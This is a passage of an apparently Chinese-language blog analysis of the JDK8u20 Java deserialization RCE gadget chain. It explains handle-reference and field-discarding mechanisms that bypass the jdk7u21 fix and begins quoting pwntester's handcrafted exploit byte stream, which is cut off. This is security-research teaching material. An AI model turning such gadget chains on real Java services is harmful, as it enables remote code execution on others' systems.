 ```java
        }
        if (unshared) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference as unshared");
        }

        Object obj = handles.lookupObject(passHandle);
        if (obj == unsharedMarker) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference to unshared object");
        }
        return obj;
    }
```
> 这个方法会从字节流中读取`TC_REFERENCE`标记段，它会把读取的引用`Handle`赋值给`passHandle`变量，然后传入`lookupObject()`，在`lookupObject()`方法中，如果引用的`handle`不为空、没有关联的`ClassNotFoundException`（`status[handle] != STATUS_EXCEPTION`），那么就返回给定`handle`的引用对象，最后由`readHandle`方法返回给对象。
> 也就是说，反序列化流程还原到`TC_REFERENCE`的时候，会尝试还原引用的`handle`对象。

### 成员抛弃机制
> 在反序列化中，如果当前这个对象中的某个字段并没有在字节流中出现，则这些字段会使用类中定义的默认值，如果这个值出现在字节流中，**但是并不属于对象，则抛弃该值，但是如果这个值是一个对象的话，那么会为这个值分配一个 Handle。**

### 利用这些机制
了解了上面2个机制之后我们就可以想到一个绕过jdk7u21修复方法的机制，即:
1. 使用`BeanContextSupport`，利用其特殊的`readChildren`方法还原一个非法的`AnnotationInvocationHandler`对象，并留下一个Handle
2. 在我们HashObject发生哈希碰撞造成RCE之前还原非法的`AnnotationInvocationHandler`对象，使得之后反序列化相同对象时还原引用的`handle`对象

## exp1
这个exp1来自pwntester师傅，直接通过手动构造反序列化的字节码来写这个畸形的JDK8u20链(真是太强了)，不过理解起来可能会有点困难，利用到了成员抛弃机制，完整源码在[pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget):
```java
...
new Object[]{
                STREAM_MAGIC, STREAM_VERSION, // stream headers

                // (1) LinkedHashSet
                TC_OBJECT,
                TC_CLASSDESC,
                LinkedHashSet.class.getName(),
                -2851667679971038690L,
                (byte) 2,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,          // super class
                HashSet.class.getName(),
                -5024744406713321676L,
                (byte) 3,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_NULL,               // no superclass

                // Block data that will be read by HashSet.readObject()
                // Used to configure the HashSet (capacity, loadFactor, size and items)
                TC_BLOCKDATA,
                (byte) 12,
                (short) 0,
                (short) 16,            // capacity
                (short) 16192, (short) 0, (short) 0, // loadFactor
                (short) 2,             // size
```